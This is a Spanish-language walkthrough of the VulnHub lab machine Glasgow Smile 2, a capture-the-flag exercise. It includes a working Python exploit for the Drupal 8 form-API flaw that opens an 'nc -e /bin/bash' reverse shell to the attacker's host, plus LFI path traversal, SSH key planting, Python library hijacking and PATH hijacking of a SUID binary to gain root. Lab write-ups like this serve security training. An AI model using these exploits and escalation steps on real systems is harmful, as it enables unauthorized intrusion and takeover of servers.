





Resolución de la máquina Glasgow Smile 2 de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 192.168.100.13
Nmap scan report for 192.168.100.13
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
83/tcp open mit-ml-dev
8080/tcp filtered http-proxy
Si damos un vistazo a la web nos encontramos con esto
Como no nos dice mucho buscaremos posibles archivos y encontramos un todo.txt
❯ gobuster dir -u 192.168.100.13 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 100
===============================================================
[+] Threads: 100
[+] Url: http://192.168.100.13
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html (Status: 200) [Size: 339]
/. (Status: 200) [Size: 339]
/todo.txt (Status: 200) [Size: 456]
Al ver el contenido es un mensaje diciendo que borre el script de bash
❯ curl 192.168.100.13/todo.txt
(
( )\ ) )
)\ ) (()/( ( /(
(()/( /(_)))(_))
/(_))_ (_)) ((_)
(_)) __|/ __||_ )
| (_ |\__ \ / /
\___||___//___|
TODO:
Remember to delete the file after you finish writing the bash automatic script.
Do I really look like a guy with a plan? You know what I am? I'm a dog chasing cars.
I wouldn't know what to do with one if I caught it! You know, I just... do things.
Joker
Asi que buscaremos posibles archivos de interes por extensiones .sh y encontramos joke
❯ gobuster dir -u 192.168.100.13 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x .sh -t 100
===============================================================
[+] Url: http://192.168.100.13
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/joke.sh (Status: 200) [Size: 1676]
Al revisar el contenido del script podemos ver un directorio
❯ curl 192.168.100.13/joke.sh
# Glasgow Smile 2 Authentication Script
# Script for authentication in progress. At the moment it only works with a single command.
curl -u user:password http://localhost/Glasgow---Smile2/
# Don't use commands like that in automated scripts, I saved a file with some network traffic packets captured.
# Analyze it and delete the script.I don't have permission to do it. Stupid Asshole.2
<...................................................................................>
Si miramos con whatweb las tecnologias podemos ver que emplea Drupal 8
❯ whatweb http://192.168.100.13/Glasgow---Smile2/
Title[Glasgow Smile 2 | Glasgow Smile 2]
HTTPServer[Debian Linux]
MetaGenerator[Drupal 8]
Buscando vulnerabilidades encontramos un exploit pero nos crea un archivo de texto
'mail[#markup]': 'echo ";-)" | tee hello.txt'
Basandonos en el podemos crear un exploit que nos entable una reverse shell
#!/usr/bin/python3
from pwn import *
import requests
if len(sys.argv) < 3:
print(f"[\033[1;31m-\033[1;37m] Uso: python3 {sys.argv[0]} <rhost> <lhost>\n")
exit(1)
def cmd():
time.sleep(1)
target = f"http://{sys.argv[1]}/Glasgow---Smile2/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
data = { 'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': f"nc -e /bin/bash {sys.argv[2]} 443" }
requests.post(target, data=data)
threading.Thread(target=cmd, args=()).start()
shell = listen(443, timeout=30).wait_for_connection()
shell.sendline(b"export HOME=/var/www TERM=xterm")
shell.interactive()
Basta con ejecutarlo con la ip de la maquina y la local como argumento y conseguimos shell
❯ sudo python3 exploit.py 192.168.100.13 192.168.100.9
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from 192.168.100.13
[*] Switching to interactive mode
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname -I
192.168.100.13 172.17.0.1 172.18.0.1
No encontramos nada asi que enviamos nuestra clave publica como autorizada para ssh
$ echo "ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBABX56XvK7GdgV/s4itOau2RwJz5IhcHYrHnsjLsLq2qdG31rvldMCD4EwtLZsFW7kY59QmbNvUx0bBLepeOeDw/YQDfHlZuTdApfndut68XAbsNMIn5jjD6s7ssZxTHbqk1LQg5M9OU6IgCZbnm8ObVfRdFVHXJCRkoC5jonIQzJo7klw== ECDSA 521 bit Keys" > /var/www/.ssh/authorized_keys
Podemos probar traernos el puerto 8080 que veiamos filtered al conectarnos
❯ ssh www-data@192.168.100.13 -L 8080:127.0.0.1:8080 -i id_rsa
www-data:~$ echo $SHELL
*** forbidden path: /usr/bin/lshell
www-data:~$
Aunque estamos en una limited shell ahora podemos ver el puerto 8080 en local

Curiosamente cuando damos al enlace password nos lleva a un php que define page=

Teniendo eso en cuenta conseguimos un lfi aunque parece ser de un contenedor
❯ curl "http://127.0.0.1:8080/?page=../../../../../../etc/passwd" | grep "sh$"
root:x:0:0:root:/root:/bin/ash
❯ curl "http://127.0.0.1:8080/?page=../../../../../../etc/hostname" | grep "</ht" -A 100 | grep -vE "</|^$"
a06ab9e15816
Al correr nginx podemos listar el archivo de configuración y vemos que incluye una ruta
❯ curl "http://127.0.0.1:8080/?page=../../../../../../etc/nginx/nginx.conf" | grep "</ht" -A 100 | grep -vE "^$|^*#|</"
worker_processes auto;
events {
worker_connections 1024;
}
http {
include mime.types;
default_type application/octet-stream;
sendfile on;
keepalive_timeout 2;
client_max_body_size 100m;
server_tokens off;
include /etc/nginx/sites-enabled/*;
}
Listando el default.conf encontramos una ruta que parece que contiene un index.php
❯ curl "http://127.0.0.1:8080/?page=../../../../../../etc/nginx/sites-enabled/default.conf" | grep "</ht" -A 36 | grep -vE "^$|^*#|</"
server {
root /var/www/html;
index index.php index.html index.htm;
server_name _;
sendfile off;
error_log /dev/stdout info;
access_log /dev/stdout;
location /.git {
deny all;
return 403;
}
location /helpmeriddlernewapplication {
root /var/www/myplace/hereis/threatened/;
index index.php;
}
Si miramos el directorio pero desde la web nos encontramos el siguiente acertijo

Al buscar el acertijo en el buscador podemos encontrar la respuesta: the human brain

Al resolver el acertijo nos lanza una ventana emergente con lo que parece una contraseña

Si miramos el passwd podemos ver a riddler, al conectarmos por ssh encontramos una flag
$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
bane:x:1000:1000:bane,,,:/home/bane:/bin/bash
carnage:x:1001:1001:carnage,,,:/home/carnage:/bin/bash
venom:x:1002:1002:venom,,,:/home/venom:/bin/bash
riddler:x:1003:1003:Riddler,,,:/home/riddler:/bin/bash
❯ sshpass -p J2h3cUy5Sc4gXLp5VXrE ssh riddler@192.168.100.13
riddler@glasgowsmile2:~$ id
uid=1003(riddler) gid=1003(riddler) groups=1003(riddler)
riddler@glasgowsmile2:~$ hostname -I
192.168.100.13 172.17.0.1 172.18.0.1
riddler@glasgowsmile2:~$ cat user.txt
GS2{52ed6cddca27b44be716f9b856744008}
riddler@glasgowsmile2:~$
Tambien podemos encontrar un directorio el cual contiene varios archivos
riddler@glasgowsmile2:~$ ls
theworldmustbeburned user.txt
riddler@glasgowsmile2:~$ cd theworldmustbeburned
riddler@glasgowsmile2:~/theworldmustbeburned$ ls
burn info.txt jokerinthepack message.txt
riddler@glasgowsmile2:~/theworldmustbeburned$ cat burn
<?php function grdl($q0){$b1=fopen($q0,'r')or die();$a2=0;while(!feof($b1)){$t3=fgets($b1);$a2++;}rewind($b1);$s4=0;$n5=rand(0,$a2);while((!feof($b1))&&($s4<=$n5)){if($x6=fgets($b1,1048576)){$s4++;}}fclose($b1)or die();return $x6;}function gws($n7){$j8=str_split($n7);$a9=0;foreach($j8 as $m10){$a9+=ord($m10);}return $a9;}function encrypt($c11,$j12,$e13){$f14=true;$l15=gws($c11);$q16=gws($j12);$f17=str_split($e13);$a18="";foreach($f17 as $m10){$f14=!$f14;$p19=$l15;if($f14){$p19=$q16;}$a18.=ord($m10)+$p19;if($f14){$a18.="A";}else{$a18.="F";}}return $a18;}$q0="jokerinthepack";$e13=readline("Enter the string to encrypt: ");$c11=trim(grdl($q0));$j12=trim(grdl($q0));print"\n";print"Your keys:";print"\n";print"Key 1: ".$c11;print"\n";print"Key 2: ".$j12;print"\n";$a18=trim(encrypt($c11,$j12,$e13));print"Encrypted string:".$a18."\n\n\n";?>
riddler@glasgowsmile2:~/theworldmustbeburned$ cat info.txt
__ __ __ _____ _____ _____ _____ _____ _____ _____ _____ __ __
/\_\ /\_\ /_/\ /\___/\ /\ __/\ /\___/\ /\ __/\ /\___/\ /\ __/\ /\ __/\ /\___/\ /\ /\ /\
\/_/ ( ( (_) ) ) / / _ \ \ ) ) \ \ / / _ \ \ ) )(_ ) ) / / _ \ \ ) ) \ \ ) ) \ \ / / _ \ \\ \ \/ / /
/\_\ \ \___/ / \ \(_)/ // / /\ \ \ \ \(_)/ / / / __/ / \ \(_)/ // / /\ \ \ / / /\ \ \\ \(_)/ / \ \__/ /
/ / / / / _ \ \ / / _ \ \\ \ \/ / / / / _ \ \ \ \ _\ \ / / _ \ \\ \ \/ / / \ \ \/ / // / _ \ \ \__/ /
( (_( ( (_( )_) )( (_( )_) )) )__/ / ( (_( )_) ) ) )(__) )( (_( )_) )) )__/ / ) )__/ /( (_( )_) ) / / /
\/_/ \/_/ \_\/ \/_/ \_\/ \/___\/ \/_/ \_\/ \/____\/ \/_/ \_\/ \/___\/ \/___\/ \/_/ \_\/ \/_/
Hey,
listen to this song, maybe it could help you to try to understand my encryption code.
Don't worry about it, it's impossible to break ;)
https://www.youtube.com/watch?v=WV5-KhZMOtY
riddler@glasgowsmile2:~/theworldmustbeburned$ cat jokerinthepack
Oh my boots they shine
And my bowler looks fine
Take some time and care
Take a look at my hair
We hit the dance hall
So smart and so chic
I make them laught a lot
I make them accept me
Secrets are spoken
Plans are drawn in the dust
With a gay bravado
I'm taken into their trust
Oh my boots they shine
And my bowler looks fine
But don't confide in my smile
Because jokers are wild
riddler@glasgowsmile2:~/theworldmustbeburned$ cat message.txt
Your keys:
Key 1: I make them laught a lot
Key 2: Because jokers are wild
Encrypted string:2188F2236A2200F2236A2269F2301A2263F2291A2186F2299A2255F2300A2186F2287A2268F2291A2264F2229A2270F2222A2262F2301A2265F2297A2259F2300A2257F2222A2256F2301A2268F2222A2251F2300A2275F2306A2258F2295A2264F2293A2186F2298A2265F2293A2259F2289A2251F2298A2198F2222A2262F2295A2261F2291A2186F2299A2265F2300A2255F2311A2200F2222A2238F2294A2255F2311A2186F2289A2251F2300A2193F2306A2186F2288A2255F2222A2252F2301A2271F2293A2258F2306A2198F2222A2252F2307A2262F2298A2259F2291A2254F2234A2186F2304A2255F2287A2269F2301A2264F2291A2254F2234A2186F2301A2268F2222A2264F2291A2257F2301A2270F2295A2251F2306A2255F2290A2186F2309A2259F2306A2258F2236A2186F2273A2265F2299A2255F2222A2263F2291A2264F2222A2260F2307A2269F2306A2186F2309A2251F2300A2270F2222A2270F2301A2186F2309A2251F2306A2253F2294A2186F2306A2258F2291A2186F2309A2265F2304A2262F2290A2186F2288A2271F2304A2264F2236A2188F2222A2239F2260A2240F2259A2205F2244A2225F2308A2239F2299A2229F2242A2238F2289A2244F2257A2274F2256A2258F2246A2272F2275A2223F2277A2271F2279A2255F2297A2221F2279A
riddler@glasgowsmile2:~/theworldmustbeburned$
Analizando un poco la cadena encriptada encontramos que sigue un patron con F y A
2188F2236A2200F2236A2269F2301A2263F2291A2186F2299A2255F2300A
Despues de analizar el php y la cadena encontramos que dependiendo la letra suma un valor
F = (+ 2154)
A = (+ 2190)
Lo suma despues de hacer un ord a la cadena en texto claro, ejemplo con la letra "a"
>>> ord('a') + 2154
2251
>>> "2251" + "F"
2251F
>>> ord('a') + 2190
2287
>>> "2287" + "A"
2287A
2251F = a
2287A = a
Sabiendo esto podemos invertirlo para verlo en texto plano, usaremos el inicio de la cadena
2188F2236A
>>> chr(2188 - 2154)
"
>>> chr(2236 - 2190)
.
2188F = "
2236A = .
2188F2236A = ".
Para automatizarlo podemos crear un txt que en cada letra F o A haga un salto de linea
riddler@glasgowsmile2:~/theworldmustbeburned$ cat message.txt | grep -v ey | sed 's/Encrypted string\://g' | sed 's/F/F\n/g' | sed 's/A/A\n/g' | grep -v "^$" > new.txt
riddler@glasgowsmile2:~/theworldmustbeburned$
Ademas crear un script que por cada linea haga el proceso dependiendo de la letra
with open("new.txt") as archivo:
for linea in archivo:
linea = linea.strip()
resta = int(linea[:len(linea)-1])
if linea[-1] == "F":
resta -= 2154
if linea[-1] == "A":
resta -= 2190
print(chr(resta))
Teniendo el script solo queda ejecutarlo quitando los saltos de linea y nos da una contraseña
riddler@glasgowsmile2:~/theworldmustbeburned$ python3 decrypt.py | tr -d "\n"; echo
"...some men aren't looking for anything logical, like money. They can't be bought, bullied, reasoned, or negotiated with. Some men just want to watch the world burn." UFVE36GvUmK4TcZCxBh8vUEWuYekCY
riddler@glasgowsmile2:~/theworldmustbeburned$
Con esta contraseña podemos conectarnos como bane y obtener otra flag
❯ sshpass -p UFVE36GvUmK4TcZCxBh8vUEWuYekCY ssh bane@192.168.100.13
bane@glasgowsmile2:~$ id
uid=1000(bane) gid=1000(bane) groups=1000(bane)
bane@glasgowsmile2:~$ hostname -I
192.168.100.13 172.17.0.1 172.18.0.1
bane@glasgowsmile2:~$ cat user2.txt
GS2{5c851b5e9ec996b38b7d0a544013380e}
bane@glasgowsmile2:~$
Si listamos privilegios de sudoers podemos ejecutar como carnage el binario make
bane@glasgowsmile2:~$ sudo -l
[sudo] password for bane: UFVE36GvUmK4TcZCxBh8vUEWuYekCY
Matching Defaults entries for bane on glasgowsmile2:
env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/bin\:/bin
User bane may run the following commands on glasgowsmile2:
(carnage) /bin/make
bane@glasgowsmile2:~$
Guiandonos de gtfobins podemos convertirnos en carnage y conseguir otra flag
bane@glasgowsmile2:~$ sudo -u carnage make -s --eval=$'x:\n\t-'"bash"
carnage@glasgowsmile2:/home/bane$ cd
carnage@glasgowsmile2:~$ id
uid=1001(carnage) gid=1001(carnage) groups=1001(carnage),50(staff)
carnage@glasgowsmile2:~$ hostname -I
192.168.100.13 172.17.0.1 172.18.0.1
carnage@glasgowsmile2:~$ cat user3.txt
GS2{988535ad480d747ef00c705541d08a6e}
carnage@glasgowsmile2:~$
Listando tareas con pspy podemos ver que 1002 (venom) ejecuta la siguiente
CMD: UID=1002 PID=4376 | /bin/sh -c python /opt/get_out/moonlight.py
No podemos leer el script pero si un mensaje sobre como funciona
carnage@glasgowsmile2:/opt/get_out$ cat moonlight.py
cat: moonlight.py: Permission denied
carnage@glasgowsmile2:/opt/get_out$ cat help.txt
I wrote a script that automatically allows you to have a zip of your personal folder.
Now you can also delete the zip by mistake, it will be created again.
Am I good or not? ;)
@@@ @@@ @@@@@@@@ @@@ @@@ @@@@@@ @@@@@@@@@@
@@@ @@@ @@@@@@@@ @@@@ @@@ @@@@@@@@ @@@@@@@@@@@
@@! @@@ @@! @@!@!@@@ @@! @@@ @@! @@! @@!
!@! @!@ !@! !@!!@!@! !@! @!@ !@! !@! !@!
@!@ !@! @!!!:! @!@ !!@! @!@ !@! @!! !!@ @!@
!@! !!! !!!!!: !@! !!! !@! !!! !@! ! !@!
:!: !!: !!: !!: !!! !!: !!! !!: !!:
::!!:! :!: :!: !:! :!: !:! :!: :!:
:::: :: :::: :: :: ::::: :: ::: ::
: : :: :: :: : : : : : :
carnage@glasgowsmile2:/opt/get_out$
Podemos crear un zipfile.py y darle permisos de ejecución esperando que use el de la carpeta actual, usando la libreria os para meter nuestra clave publica como autorizada
carnage@glasgowsmile2:/opt/get_out$ cat zipfile.py
import os
os.system("mkdir ~/.ssh; echo 'ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBABX56XvK7GdgV/s4itOau2RwJz5IhcHYrHnsjLsLq2qdG31rvldMCD4EwtLZsFW7kY59QmbNvUx0bBLepeOeDw/YQDfHlZuTdApfndut68XAbsNMIn5jjD6s7ssZxTHbqk1LQg5M9OU6IgCZbnm8ObVfRdFVHXJCRkoC5jonIQzJo7klw== ECDSA 521 bit Keys' > ~/.ssh/authorized_keys")
carnage@glasgowsmile2:/opt/get_out$ chmod +x zipfile.py
carnage@glasgowsmile2:/opt/get_out$
Pasados unos segundos podremos conectarnos por ssh con nuestra id_rsa y conseguir otra flag
❯ ssh venom@192.168.100.13 -i id_rsa
venom@glasgowsmile2:~$ id
uid=1002(venom) gid=1002(venom) groups=1002(venom)
venom@glasgowsmile2:~$ hostname -I
192.168.100.13 172.17.0.1 172.18.0.1
venom@glasgowsmile2:~$ cat user4.txt
GS2{b79aba0d627bcd2025e35c2a192e1d51}
venom@glasgowsmile2:~$
Encontramos un directorio que contiene varios archivos de root con permisos suid
venom@glasgowsmile2:~$ ls
Ladies_and_Gentlmen user4.txt
venom@glasgowsmile2:~$ cd Ladies_and_Gentlmen
venom@glasgowsmile2:~/Ladies_and_Gentlmen$ ls
Gotham
venom@glasgowsmile2:~/Ladies_and_Gentlmen$ cd Gotham
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$ ls -l
total 264
-rwsr-xr-x 1 root root 988 Jun 23 2020 batman
-rwsr-xr-x 1 root root 16659 Dec 18 2020 gothamwillburn1
-rwsr-xr-x 1 root root 16744 Dec 18 2020 gothamwillburn10
-rwsr-xr-x 1 root root 16749 Dec 18 2020 gothamwillburn11
-rwsr-xr-x 1 root root 16752 Dec 18 2020 gothamwillburn12
-rwsr-xr-x 1 root root 16755 Dec 18 2020 gothamwillburn13
-rwsr-xr-x 1 root root 16660 Dec 18 2020 gothamwillburn2
-rwsr-xr-x 1 root root 16672 Dec 18 2020 gothamwillburn3
-rwsr-xr-x 1 root root 16720 Dec 18 2020 gothamwillburn4
-rwsr-xr-x 1 root root 16675 Dec 18 2020 gothamwillburn5
-rwsr-xr-x 1 root root 16699 Dec 18 2020 gothamwillburn6
-rwsr-xr-x 1 root root 16708 Dec 18 2020 gothamwillburn7
-rwsr-xr-x 1 root root 16723 Dec 18 2020 gothamwillburn8
-rwsr-xr-x 1 root root 16735 Dec 18 2020 gothamwillburn9
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$
Entre ellos gothamwillburn4 que podemos ver que usa cat sin la ruta absoluta
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$ strings gothamwillburn4
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
GLIBC_2.2.5
u/UH
[]A\A]A^A_
cat ./batman
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
deregister_tm_clones
completed.7325
frame_dummy
gothamwillburn.c
system@@GLIBC_2.2.5
main
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$
Podemos secuestrar el path para que tome nuestro cat y asi convertirnos en root
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$ echo "su" > cat
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$ chmod +x cat
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$ export PATH=$PWD:$PATH
venom@glasgowsmile2:~/Ladies_and_Gentlmen/Gotham$ ./gothamwillburn4
root@glasgowsmile2:/home/venom/Ladies_and_Gentlmen/Gotham# cd
root@glasgowsmile2:~# id
uid=0(root) gid=0(root) groups=0(root)
root@glasgowsmile2:~# hostname -I
192.168.100.13 172.17.0.1 172.18.0.1
root@glasgowsmile2:~# cat root.txt
.... . .. .x+=:. ... . ..
.x88" `^x~ xH(` x .d88" z` ^% x=~ .x888888hx : @88> x .d88" .--~*teu.
X888 x8 ` 8888h 5888R . <k u. 88x. .e. .e. d88888888888hxx .. . : %8P 5888R dF 988Nx
88888 888. %8888 '888R u .@8Ned8" uL ...ue888b '8888X.x888:.x888 8" ... `"*8888%` .888: x888 x888. . '888R .u d888b `8888>
<8888X X8888 X8? 888R us888u. .@^%8888" .ue888Nc.. 888R Y888r `8888 888X '888k ! " ` .xnxx. ~`8888~'888X`?888f` .@88u 888R ud8888. ?8888> 98888F
X8888> 488888>"8888x 888R .@88 "8888" x88: `)8b. d88E`"888E` 888R I888> X888 888X 888X X X .H8888888%: X888 888X '888> ''888E` 888R :888'8888. "**" x88888~
X8888> 888888 '8888L 888R 9888 9888 8888N=*8888 888E 888E 888R I888> X888 888X 888X X 'hn8888888*" > X888 888X '888> 888E 888R d888 '88%" d8888*`
?8888X ?8888>'8888X 888R 9888 9888 %8" R88 888E 888E 888R I888> X888 888X 888X X: `*88888%` ! X888 888X '888> 888E 888R 8888.+" z8**"` :
8888X h 8888 '8888~ 888R 9888 9888 @8Wou 9% 888E 888E u8888cJ888 .X888 888X. 888~ '8h.. `` ..x8> X888 888X '888> 888E 888R 8888L :?..... ..F
?888 -:8*" <888" .888B . 9888 9888 .888888P` 888& .888E "*888*P" `%88%``"*888Y" `88888888888888f "*88%""*88" '888!` 888& .888B . '8888c. .+ <""888888888~
`*88. :88% ^*888% "888*""888" ` ^"F *888" 888& 'Y" `~ `" '%8888888888*" `~ " `"` R888" ^*888% "88888% 8: "888888*
^"~====""` "% ^Y" ^Y' `" "888E ^"****""` "" "% "YP' "" "**"`
.dWi `88E
4888~ J8%
^"===*"`
What do you get when you cross a mentally-ill loner with a society that abandons him and treats him like trash!?
I'll tell you what you get:
YOU GET WHAT YOU FUCKING DESERVE!
Congratulations you pwned GS2!
GS2{df135baa6a216b6fe05f57a1efc1c90f}
If you liked my Virtual Machines, offer me a coffee, I'll work on the next one!
https://www.buymeacoffee.com/mindsflee
mindsflee
root@glasgowsmile2:~#